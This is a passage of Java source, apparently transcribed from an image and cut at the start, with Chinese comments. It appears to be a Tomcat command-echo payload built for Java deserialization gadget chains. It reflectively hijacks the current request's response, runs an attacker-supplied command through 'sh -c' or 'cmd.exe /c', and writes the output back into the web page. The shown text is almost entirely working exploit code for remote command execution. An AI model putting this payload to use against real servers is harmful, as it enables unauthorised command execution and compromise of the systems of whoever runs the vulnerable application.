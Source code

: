 ```java
            if (!WRAP_SAME_OBJECT || lastServicedResponse == null || lastServicedRequest == null) {
                lastServicedRequestField.set(null, new ThreadLocal<>());//赋值
                lastServicedResponseField.set(null, new ThreadLocal<>());//赋值
                WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);//赋值
            } else if (cmd != null) {//回显内容
                ServletResponse responseFacade = lastServicedResponse.get();//获取当前请求response
                java.io.Writer w = responseFacade.getWriter();

                Field responseField = ResponseFacade.class.getDeclaredField("response");//修改usingwriter，让页面可以写正常内容以及命令回显
                responseField.setAccessible(true);
                Response response = (Response) responseField.get(responseFacade);
                Field usingWriter = Response.class.getDeclaredField("usingWriter");
                usingWriter.setAccessible(true);
                usingWriter.set(response, Boolean.FALSE);

                boolean isLinux = true;//执行命令
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                w.write(output);
                w.flush();
            }
        } catch (IOException e) {
            throw new RuntimeException(e);
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```
